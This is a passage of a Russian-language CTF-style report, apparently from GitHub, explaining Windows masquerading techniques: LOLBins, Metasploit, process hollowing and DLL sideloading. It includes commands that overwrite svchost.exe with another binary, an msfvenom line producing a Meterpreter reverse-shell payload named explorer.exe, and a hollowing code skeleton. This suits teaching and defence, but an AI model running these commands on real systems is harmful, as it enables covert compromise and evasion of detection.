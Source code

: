 **Опасность:** Компании могут не замечать компрометации вплоть до крупных утечек данных или разрушительных атак.  

---

## Какие инструменты используются?

![image](https://github.com/AnaktaCTF/CTFReports/blob/main/Nnnikitosss/Picture/3.3.png)

### 1️⃣ PowerShell и Living-off-the-Land Binaries (LOLBins)
**Описание**: Использование встроенных утилит Windows для выполнения вредоносного кода без скачивания дополнительных файлов.

**Примеры команд**:
```powershell
Copy-Item C:\Windows\System32\notepad.exe C:\Windows\System32\svchost.exe
Start-Process C:\Windows\System32\svchost.exe
```
✅ **Вывод**: Запуск подмененного исполняемого файла.

---

### 2️⃣ Metasploit
**Описание**: Фреймворк для эксплуатации уязвимостей, содержащий модули для маскировки полезной нагрузки.

**Команды**:
```bash
msfvenom -p windows/meterpreter/reverse_tcp -f exe -o explorer.exe
```
✅ **Вывод**: Генерация вредоносного файла с маскировкой под `explorer.exe`.

---

### 3️⃣ Process Hollowing
**Описание**: Техника внедрения вредоносного кода в легитимные процессы.

**Инструменты**: 
- Cobalt Strike
- Process Hacker
- SysWhispers

**Пример использования SysWhispers (C)**:
```c
CreateProcess("C:\\Windows\\System32\\svchost.exe", ...);
WriteProcessMemory(hProcess, ...);
ResumeThread(hThread);
```
✅ **Вывод**: Код исполняется в доверенном процессе.

---

### 4️⃣ DLL Sideloading
**Описание**: Злоумышленники помещают поддельную библиотеку в директорию, из которой легитимное приложение загружает её автоматически.
